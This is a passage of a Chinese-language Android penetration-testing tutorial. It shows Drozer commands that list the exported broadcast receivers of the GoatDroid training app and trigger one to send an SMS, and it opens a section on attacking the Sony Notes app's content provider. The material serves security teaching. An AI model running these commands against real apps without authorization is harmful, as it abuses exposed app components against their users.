 ## 广播接收机

类似于活动和服务，我们可以使用 Drozer 调用广播接收器。以下命令列出了从目标应用程序导出的所有广播接收器：

```
dz> run app.broadcast.info -a [package name]

```

在 GoatDroid 应用程序上运行上一个命令将导致以下结果：

```
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats 
Package: org.owasp.goatdroid.fourgoats
 Receiver: org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver

dz>

```

正如我们在前面的输出中所看到的，应用程序已经导出了一个广播接收器。

我们还可以列出未使用`–u`标志导出的广播接收机。具体情况如下：

```
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats -u
Package: org.owasp.goatdroid.fourgoats
 Exported Receivers:
 Receiver: org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
 Hidden Receivers:

dz>

```

正如您在前面的摘录中所看到的，此应用程序没有任何未导出的广播接收器。

现在，我们可以使用以下 Drozer 命令启动广播意图：

```
dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 5556 --extra string message CRACKED

```

前面的命令将触发广播接收器，类似于我们在前面的 adb 方法中看到的。如下图所示：

![Broadcast receivers](../Images/image01467.jpeg)

## 内容提供者泄漏和使用 Drozer 的 SQL 注入

本节展示了如何使用 Drozer 对内容提供商进行各种攻击。我们将使用之前显示的 Sony Notes 应用程序作为我们的目标。

我们可以使用如下所示的命令找到目标应用程序的包名：

```
dz> run app.package.list -f notes
com.sonyericsson.notes (Notes)
dz>

```
